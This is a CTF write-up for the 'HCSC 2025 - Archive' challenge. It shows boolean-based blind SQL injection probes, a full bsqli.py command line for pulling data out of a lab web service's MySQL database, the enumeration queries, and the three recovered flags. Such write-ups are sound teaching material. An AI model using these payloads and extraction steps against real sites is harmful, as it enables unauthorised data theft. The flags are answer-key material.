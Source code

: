 # HCSC 2025 - Archive

## Description

Flag 1: Ever searched an archive, only to find the one file you need... gone? Not all documents are meant to be read here — but with some patience, hidden things may come to light.

Flag 2: I have been in places many times before, one thing I know: always there's a private section... but private doesn't always mean unreachable.

Flag 3: Sometimes it happens that you've been looking in the right place. But maybe the right place is the wrong shelf.

Flag format: `HCSC{...}`

`10.10.1-9.10:24587`

## Metadata

- Filename: -
- Tags: `boolean-based blind sql injection`
- Points: 150, 200, 300
- Number of solvers: 40, 37, 39

## Solution

There were 3 flag in the same web service and the solution technique was also the same.

The website has a seach field where we can search for records.

![Main page](media/main-page.png)

We can try some basic SQL injection attacks and from the server responses we can concur that it is vulnerable to a *boolean-based blind SQL injection*:
- The response is `Record found` if the query returns any records (`' and 1=1 #`).
- The response is `No record found` if the query returns no records (`' and 1=0 #`).
- The response is empty if the query fails (`' and 1=`).

![SQLi true](media/sqli-true.png)

![SQLi false](media/sqli-false.png)

![SQLi bad](media/sqli-bad.png)

Here we have to options, we can write our own custom script to leak to whole database character by character using binary search, or we can try to find a generic tool which can do the same.

Luckily there is one: `bsqli.py` - <https://github.com/TrebledJ/bsqli.py>

We can specify the true, false and error conditions and basically everything we need (we can only use 1 thread, because there was a rate-limit feature on the server):

```bash
python bsqli.py \
    -u 'http://10.10.3.10:24587/documents.php?doc={payload}' \
    -X GET \
    --payload $'\' AND {cond} #' \
    --dbms MySQL \
    -bftc "No record found" \
    -betn "found" \
    --timeout 10 \
    -t 1 \
    -d 2 \
    -v
```

Now we got into a shell, where we can run queries for example (read the docs):

```
sqli> t
table> information_schema.tables
```

This will dump all the table names in the database.

For us the interesting tables are: `documents` and `flag_x4tz7uj7`

Now we can use our own queries based on the tables names. It is important to highlight that the queries should result in one string for the script to work (`group_concat`).

```
sqli> SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='documents'
sqli> SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='flag'
```

And finally to get all three flags

```
sqli> SELECT group_concat(flag) FROM flag_x4tz7uj7
HCSC{R1GHT_UND3R_Y0UR_N0S3}
```

```
sqli> SELECT group_concat(flag) FROM documents
HCSC{TH1S_W4S_N0T_S0_H4RD...},HCSC{...BUT_D1D_Y0U_3XP3CT_TH1S?}
```

- Flag 1: `HCSC{TH1S_W4S_N0T_S0_H4RD...}`
- Flag 2: `HCSC{...BUT_D1D_Y0U_3XP3CT_TH1S?}`
- Flag 3: `HCSC{R1GHT_UND3R_Y0UR_N0S3}`